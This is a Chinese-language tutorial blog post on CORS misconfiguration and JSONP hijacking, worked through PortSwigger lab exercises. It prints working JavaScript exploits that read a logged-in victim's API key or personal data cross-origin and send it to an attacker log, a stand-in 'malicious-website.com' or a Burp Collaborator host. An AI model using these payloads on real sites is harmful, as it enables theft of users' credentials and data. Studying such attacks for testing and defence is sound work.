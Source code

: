 近期在src挖掘中经常看到大佬们提到cors,josnp一直不太理解此类漏洞。特此学习记录一下，如有错误之处还望师傅们斧正。



## 1.跨域资源共享（cors)

### 跨域资源共享(cors)原理：

在讲cors之前我们先来了解一下同源策略（sop）。

##### 1.1 同源策略

**浏览器的安全基石是同源策略。同源策略保证了同一个浏览器打开不同网站，不同网站之间不会相互影响。**

列如：张三登陆了某银行网站，浏览器存储了他的cookie。而这时他又打开了另一个小网站，该小网站会记录用户的cookie。如果没有同源策略，他就会记录浏览器存储的cookie，此时银行网站的cookie也被记录，从而造成银行用户cookie泄露。



同源策略中的同源是指：

三个同源：**同协议，同域名，同端口** ，例如：

```
https:www.test.com 和 http:www.test.com (不同源，协议不同)
http:www.test.com  和 http:login.test.com (不同源，域名不同)
http:www.test.com:80 和 http:www.test.com:8080 (不同源，端口不同)
```



##### 1.2 同源策略(sop)的**窗口**跨域资源共享(cors)

但是安全和方便总是难两全。张三新开发了一个网站A，要从网站B上获取数据，但是因为同源策略的存在他获取不了B网站上的数据。此时他通过搜索发现一个叫做跨域资源共享的东西经过一通配置，他成功获取到了B网站的数据：

他的配置如下：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

这个配置在满足要求的同时也造成了严重的安全问题，**Access-Control-Allow-Origin: * ** 通配符*允许A网站访问的同时也允许了其他任意网站的访问。假设一个攻击过程：

网站C的cors配置存在缺陷，被一个黑客发现，该黑客通过友链申请，给站长发送了一个网站链接，站长为了确认友链网站，打开了网站链接，而该网站中部署了黑客精心构造的恶意脚本，能够自动获取存储网站C中的cookie信息，此时黑客就获取到了站长的cookie信息...



**配置讲解：**

**Access-Control-Allow-Origin：***
web浏览器将Access-Control-Allow-Origin与请求网站的来源进行比较，如果匹配则允许访问响应



例如：Access-Control-Allow-Origin：http://www.test.com

此时网站login.test.com（小A)向www.test.com(小B）发起 请求，小B一看请求源（origin）和自己的配置不一样，知道小A可能是个坏蛋，照例将请求返回给小A，但是响应中不含有Access-Control-Allow-Origin标头，万能的浏览器一看跨域请求，响应中还没有Access-Control-Allow-Origin字段，立马报错。坏蛋小A就获取不到小B的数据了...

更多详细讲解可参考阮老师文章：https://www.ruanyifeng.com/blog/2016/04/cors.html



**Access-Control-Allow-Credentials: true**
该字段可选。它的值是一个布尔值，表示是否允许发送Cookie。默认情况下，Cookie不包括在CORS请求之中。

设为`true`，即表示服务器明确许可，Cookie可以包含在请求中，一起发给服务器。这个值也只能设为`true`，如果服务器不要浏览器发送Cookie，删除该字段即可。



**通过前面的介绍我们对cors也知名知意了，这时问题就出现了，这漏洞该怎么挖呢？**

这时就要了解一下burpsuite网站的实验室，该实验室中存在多中漏洞实验，在学习漏洞知识的同时也能实战学习漏洞利用技巧，接下来就简单记录一下实验过程。

实验链接：https://portswigger.net/web-security/cors

#### 实战练习：

##### 1.1 来源（origin)可任意更改的cors漏洞

![1.1.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.1.1.png)

该实验个人账户界面存在账户的api密钥，我们的目标就是获取到用户的api密钥



![1.1.2](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.1.2.png)

通过观察网站源码，发现api密码是通过一个ajax接口返回到页面的。**直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞**

![1.1.3](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.1.3.png)



此时我们有一个攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可在web日志中获取到小王的api密钥

恶意脚本：

```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
// 打开api密钥链接
   req.open('get','https://ac0c1f2b1efc321180e1a18c007100d3.web-security-academy.net/accountDetails',true);
// 设置为true可以保证，请求的时候携带cookie
   req.withCredentials = true;
   req.send();

//将访问api密钥得到的数据，拼接到url中访问自己服务，即可在服务器web日志中找到api密钥信息
   function reqListener() {
    location='/log?key='+this.responseText;
   };
</script>
```

获取到的密钥：

![1.1.4](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.1.4.png)



##### 1.2 来源（origin) 可为null的cors漏洞

在某些应用程序中可能会将null列入白名单，以支持本地应用程序的开发。

origin标头不可以设置为任意标头了，尝试设置为null，此时可以获取到数据，说明存在请求来源可为null的cors漏洞

![1.2.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.2.1.png)

本地html测试：

测试exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

console.log(this.responseText);
</script>"></iframe>
```

![1.2.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.2.2.png)

此时我们继续采用实验一的攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可获取到小王的api密钥

编写exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    //恶意网站
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```



##### 1.3 利用信任子域的xss获取主域的敏感信息

有些服务器的配置为：

```javascript
Access-Control-Allow-Origin: http://*.test.com
```

这个配置乍一看没问题，信任自己的子域不是很正常吗，但是子域成百上千的大网站中，子域就特别容易出问题，找个xss既有可能严重威胁到主站。而且该配置也不符合最小信任原则，通配符*不能随便用，应该设置为固定值。例如：*

`Access-Control-Allow-Origin: http://login.test.com` 此时只要保证login.test.com没问题即可确保主站不会遭受cors攻击

在该实验三中将来源（origin)设置为任意子域，如：

![1.3.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.3.1.png)

设置为不存在的example子域，依旧可以访问敏感数据



正好该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞

![1.3.2](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/1.3.2.png)



所以想到一个利用链：

```
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```



exp:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```



exp解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest();
   req.onload = reqListener;
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();
function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```



**跨域除了cors外还有一种非官方的方法jsonp，jsonp 是 JSON with padding（填充式 JSON 或参数式 JSON）的简写。**

jsonp通过动态创建<script>标签，然后利用<script>的src属性不受同源策略的约束来获取跨域数据。

jsonp在造成方便的同时也造成了一定的安全的问题。jsonp劫持最早在08年提出，早期各大厂商并不重视此类漏洞，但在个人信息保护严密的现在，jsonp劫持带来的信息泄露问题，促使各大src厂商开始重视jsonp劫持漏洞。以下简要分析jsonp劫持原理，很多不足之处，还望大佬们斧正。

## 2.jsonp劫持

### 2.1 漏洞场景模拟：

某司因为业务需求，需要网站B从网站A中获取json数据，所以他们在A中实现了一个jsonp接口

![2.1.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.1.png)

接口代码如下：

```php

<?php
header('Content-type: application/json');
//获取回调函数名
$jsonpCallback = htmlspecialchars($_REQUEST ['jsonp']);
//json数据
$json_data = '["张三","12011012110","男","浙江杭州"]';
//输出jsonp格式的数据
echo $jsonpCallback . "(" . $json_data . ")";
?>
```

网站B代码如下：

```html

<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP 实例</title>
</head>
<body>
<div id="divCustomers"></div>
<script type="text/javascript">
function callback(result, methodName)
{
    var html = '<ul>';
    for(var i = 0; i < result.length; i++)
    {
        html += '<li>' + result[i] + '</li>';
    }
    html += '</ul>';
    document.getElementById('divCustomers').innerHTML = html;
}
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
</body>
</html>
```

效果如下：

![2.1.2](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.2.png)

此时通过jsonp接口，实现了跨域传输。然而该跨域传输过程存在很大的安全安全问题，因为对json参数调用者没有任何限制

### 2.2 漏洞利用流程：

这里使用burp的collaborator client功能来接收http记录，主要是为了实验，也演示一下collaborator client的强大功能 ，在实际利用中可以直接向本地127.0.01发送请求，在web日志记录中查看即可

2.2.1 打开collaborator client获取请求链接

![2.1.3](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.3.png)

![2.1.4](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.4.png)



2.2.2 复制链接填入脚本，点击Poll now开始循环监听http请求。

```javascript
<h1>jsonp exp</h1>

<script type="text/javascript">
  function callback(result)
{
   var req = new XMLHttpRequest();

    //向burp的collaborator client发送请求，并携带获取到json数据
   req.open('get','https://r2u9atjp588pt96t5cpef5o40v6lua.burpcollaborator.net/?userinfo='+result,true);
   req.withCredentials = true;
   req.send();
}
</script>
//jsonp接口
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
```

2.2.3 将脚本部署到恶意网站，并将网站链接发送给受害者，受害者访问链接，即可在collaborator client中获取到用户的json数据。



![2.1.5](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.5.png)



### 2.3  jsonp挖掘思路

知道了应用场景，也知道利用流程，此时就应该思考怎么利用jsonp漏洞了



工具挖掘可以使用xray，xray自带有jsonp漏洞检测功能，监听端口，被动扫描就完事

手工挖掘也有一些小技巧，大佬总结的jsonp接口常用参数：

```
cb
callback
jsoncb
jsonpcb
jsonp
jQuery
jsoncallback
jsonpcallback
jsoncall
jsonpcall
```

访问网站首页

![2.1.6](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.6.png)

1. 打开network

2. 勾选Preserver log

3. 在搜索框中搜索常用jsonp参数



搜索到带有相关参数的链接，即可使用exp验证是否存在jsonp泄露。

验证poc:

```html

<!DOCTYPE html>
<html>
<head>
 <title>jsonp劫持验证示例</title>
 <meta charset="utf-8">
    <style type="text/css">
        table{
            display:inline
        }
</style>
</head>
<body>
<script src='https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js'></script>
<script type="text/javascript">
function callback(json){
    console.log(json);
}
var s=document.createElement('script');
s.type="text/javascript";
    //漏洞可能存在点
s.src='http://127.0.0.1/jsonp.php?jsonp=callback';
document.body.appendChild(s);
</script>
</body>
</html>
```

![2.1.7](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/2.1.7.png)

console.log获取到数据，说明存在该漏洞



参考链接：

https://blog.knownsec.com/2015/03/jsonp_security_technic/

https://mp.weixin.qq.com/s/SuEpF3RIZIv2CcIUok8SoQ

[https://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/跨域漏洞那些事儿（cors,jsonp/https://www.k0rz3n.com/2018/06/05/由浅入深理解JSONP并拓展/)